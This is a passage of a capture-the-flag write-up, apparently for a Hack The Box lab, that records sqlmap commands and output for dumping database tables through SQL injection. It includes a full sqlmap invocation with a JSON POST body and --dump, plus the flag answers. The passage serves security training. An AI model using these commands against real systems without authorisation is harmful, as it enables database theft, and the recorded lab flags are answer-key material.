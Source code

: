 ```

[06:56:42] [INFO] table 'testdb.flag3' dumped to CSV file '/home/kali/.local/share/sqlmap/output/157.245.33.77/dump/testdb/flag3.csv'
[06:56:42] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/157.245.33.77'

[*] ending @ 06:56:42 /2022-07-03/
```

**Answer:** `HTB{c00k13_m0n573r_15_7h1nk1n6_0f_6r475}`

### Question 3:
![](./attachments/Pasted%20image%2020220703114945.png)

*Hint: When dealing with complex HTTP requests, it's best to use sqlmap with the '-r' option.*

Get the URL 

```
┌──(kali㉿kali)-[~]
└─$ sqlmap 'http://157.245.33.77:32596/case4.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0' -H 'Accept: */*' -H 'Accept-Language: en-US,en;q=0.5' --compressed -H 'Content-Type: application/json' -H 'Origin: http://157.245.33.77:32596' -H 'Connection: keep-alive' -H 'Referer: http://157.245.33.77:32596/case4.php' --data-raw '{"id":1}' --batch --dump
        ___
       __H__                                                                                                                                                                              
 ___ ___[.]_____ ___ ___  {1.6.5#stable}                                                                                                                                                  
|_ -| . [(]     | .'| . |                                                                                                                                                                 
|___|_  [,]_|_|_|__,|  _|                                                                                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 07:05:13 /2022-07-03/

JSON data found in POST body. Do you want to process it? [Y/n/q] Y
[07:05:13] [INFO] testing connection to the target URL
(...)
[07:06:36] [INFO] fetching entries for table 'flag4' in database 'testdb'
Database: testdb
Table: flag4
[1 entry]
+----+---------------------------------+
| id | content                         |
+----+---------------------------------+
| 1  | HTB{j450n_v00rh335_53nd5_6r475} |
+----+---------------------------------+

[07:06:36] [INFO] table 'testdb.flag4' dumped to CSV file '/home/kali/.local/share/sqlmap/output/157.245.33.77/dump/testdb/flag4.csv'
```